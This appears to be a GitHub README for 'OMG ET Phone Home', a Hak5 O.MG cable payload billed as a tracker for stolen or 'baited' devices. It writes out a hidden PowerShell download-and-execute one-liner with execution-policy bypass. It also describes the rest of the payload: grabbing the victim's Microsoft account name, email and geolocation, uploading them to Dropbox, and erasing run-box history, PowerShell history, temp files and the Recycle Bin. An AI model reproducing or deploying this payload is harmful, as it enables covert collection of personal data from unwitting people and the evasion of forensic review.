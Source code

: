 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG ET Phone Home

A script I put together to locate your stolen devices, or your "stolen" baited devices

## Description

This program is meant to locate your devices. Save the execution file on the boot partition of your devices and when someone plugs it into their computer
Using a one liner in the run box a script will be downloaded and executed that grabs the Name and email of the associated microsoft account and the 
latitude and longitude of where the device was activated. This information is stored in a text document that is then uploaded to your dropbox. 
Finally the end of the script will delete the runbox and powershell history and delete the files in the TMP Folder and Recycle Bin. 

## Getting Started

### Dependencies

* DropBox - Your Shared link for the intended file
* Windows 7,10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Your device is plugged into the targets computer
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory if your intended wifi network is not detected with the
  geofencing options
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The OMG device will attempt to detect the Wifi Access point you designated, if it does not.. 
* A one liner in the run box will download and execute the ET-Phone-Home Script 
* This script will get the Name and Email associated with the microsoft account of the persons computer your device connected to 
* The latitude and longitude of where the device was when it was activated will also be collected 
* This gathered information will be saved to a text file in the TMP Directory 
* That file will be uploaded to your DropBox cloud storage 

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Kalani


<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-ET-Phone-Home)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)



<p align="right">(<a href="#top">back to top</a>)</p>
